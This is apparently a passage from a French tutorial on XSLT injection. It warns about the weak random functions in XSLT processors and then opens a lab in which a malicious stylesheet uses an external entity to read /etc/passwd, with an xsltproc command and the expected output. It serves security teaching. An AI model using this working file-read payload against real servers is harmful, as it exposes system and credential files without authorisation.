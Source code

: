 Ces processeurs utilisent :

* **Xalan-C :** `srand()` de C++ (documenté comme "bad random")
* **Xalan-J/Saxon :** `java.lang.Math.random()` (non sécurisé)

**⚠️ Ne JAMAIS utiliser XSLT pour générer :**

* Tokens de sécurité
* Clés cryptographiques
* IV pour CBC mode
* Nonces
* Session IDs

***

### 5️⃣ CAS PRATIQUES ET LABS

#### 🧪 Lab 1 : Lecture de fichiers locaux

**Objectif :** Lire `/etc/passwd` sur un serveur Linux

**Étape 1 : Créer le XML**

```xml
<?xml version="1.0" encoding="utf-8"?>
<?xml-stylesheet type="text/xsl" href="exploit.xsl"?>
<data>test</data>
```

**Étape 2 : Créer le XSLT malveillant**

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE root [
  <!ENTITY passwd SYSTEM "file:///etc/passwd">
]>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
  <xsl:template match="/">
    <html>
      <body>
        <h2>Contenu de /etc/passwd</h2>
        <pre>&passwd;</pre>
      </body>
    </html>
  </xsl:template>
</xsl:stylesheet>
```

**Étape 3 : Tester**

```bash
xsltproc exploit.xsl data.xml
```

**Résultat attendu :**

```
<html>
  <body>
    <h2>Contenu de /etc/passwd</h2>
    <pre>root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...</pre>
  </body>
</html>
```
